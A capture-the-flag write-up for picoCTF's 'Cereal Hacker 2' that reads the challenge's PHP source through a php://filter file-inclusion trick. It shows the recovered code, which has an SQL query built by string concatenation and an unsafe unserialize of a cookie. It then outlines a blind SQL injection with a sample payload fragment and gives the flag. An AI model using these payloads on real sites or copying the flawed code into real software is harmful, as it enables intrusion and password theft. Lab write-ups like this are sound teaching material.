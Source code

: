 <h3>Challenge #18 Cereal Hacker 2</h3>
<blockquote><i>Get the admin's password. https://2019shell1.picoctf.com/problem/62195/ or http://2019shell1.picoctf.com:62195</i></blockquote>

Same login page as in Cereal Hacker 1.<br>I could have use some of the pentesting tools for scanning vulnerabilities , but I was doing this manually. I started for searching for LFI/RFI and to access for example <code>../../../../etc/passwd</code>. <br>The file wasn't found but i saw that it is appending .php extension at the end as a message. So that means we can actually get to the local files ,or the inclusion was done by using most likely require_once php method. One of the solutions to get to certain file was using <code>php://filter/convert.base64_encode/resource</code> . With this I am able to see any php file that is out there by outputing b64 , before it's being used by require_once method. <br> So first I tried with <blockquote>https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=admin</blockquote>
<br>
And that gave me base64 output , after decoding b64 we've got code from admin.php which looked like this : 

```php

 <?php

require_once('cookie.php');

if(isset($perm) && $perm->is_admin()){
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">Welcome to the admin page!</h5>
							<h5 style="color:blue" class="text-center">Flag: Find the admin's password!</h5>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
else{
?>
	
	<body>
		<div class="container">
			<div class="row">
				<div class="col-sm-9 col-md-7 col-lg-5 mx-auto">
					<div class="card card-signin my-5">
						<div class="card-body">
							<h5 class="card-title text-center">You are not admin!</h5>
							<form action="index.php" method="get">
								<button class="btn btn-lg btn-primary btn-block text-uppercase" name="file" value="login" type="submit" onclick="document.cookie='user_info=; expires=Thu, 01 Jan 1970 00:00:18 GMT; domain=; path=/;'">Go back to login</button>
							</form>
						</div>
					</div>
				</div>
			</div>
		</div>

	</body>

<?php
}
?>

```
<br>
We can see that is using require_once for cookie.php so I just followed the same steps for all the things that I could get. And I've got to the source code of DB query : <br>

```php
https://2019shell1.picoctf.com/problem/62195/index.php?file=php://filter/convert.base64-encode/resource=cookie
require_once('../sql_connect.php');

// I got tired of my php sessions expiring, so I just put all my useful information in a serialized cookie
class permissions
{
	public $username;
	public $password;
	
	function __construct($u, $p){
		$this->username = $u;
		$this->password = $p;
	}

	function is_admin(){
		global $sql_conn;
		if($sql_conn->connect_errno){
			die('Could not connect');
		}
		//$q = 'SELECT admin FROM pico_ch2.users WHERE username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';
		
		if (!($prepared = $sql_conn->prepare("SELECT admin FROM pico_ch2.users WHERE username = ? AND password = ?;"))) {
		    die("SQL error");
		}

		$prepared->bind_param('ss', $this->username, $this->password);
	
		if (!$prepared->execute()) {
		    die("SQL error");
		}
		
		if (!($result = $prepared->get_result())) {
		    die("SQL error");
		}

		$r = $result->fetch_all();
		if($result->num_rows !== 1){
			$is_admin_val = 0;
		}
		else{
			$is_admin_val = (int)$r[0][0];
		}
		
		$sql_conn->close();
		return $is_admin_val;
	}
}

/* legacy login */
class siteuser
{
	public $username;
	public $password;
	
	function __construct($u, $p){
		$this->username = $u;
		$this->password = $p;
	}

	function is_admin(){
		global $sql_conn;
		if($sql_conn->connect_errno){
			die('Could not connect');
		}
		$q = 'SELECT admin FROM pico_ch2.users WHERE admin = 1 AND username = \''.$this->username.'\' AND (password = \''.$this->password.'\');';
		
		$result = $sql_conn->query($q);
		if($result->num_rows != 1){
			$is_user_val = 0;
		}
		else{
			$is_user_val = 1;
		}
		
		$sql_conn->close();
		return $is_user_val;
	}
}


if(isset($_COOKIE['user_info'])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE['user_info'])));
	}
	catch(Exception $except){
		die('Deserialization error.');
	}
}

?>
```
So here we have our db logic query, we can see that there is an old permission class that we were using in previous challenge but we can see siteuser class now . The difference is that siteuser class is not using prepared for sanitization , since there are two classes we can still exploit that siteuser. And it is still using unserialize, <a href="https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection">unserialize exploit.</a>
So this is going to be error-based / blind sql injection. We can make script for this and try to match password by checking character by character , if the character of password that we are trying to guess is right one we should get Welcome to admin page if not it should give us You are not an admin page.Check the <a href="">script</a>.<br>
Using <code>' or password like BINARY ' = "c%"</code> is going to check if the password is checking with character that we are trying to guess and if it does we are gonna concat it and provide that character as the first and so on till we get the flag. 

<b>FLAG : picoCTF{c9f6ad462c6bb64a53c6e7a6452a6eb7} </b>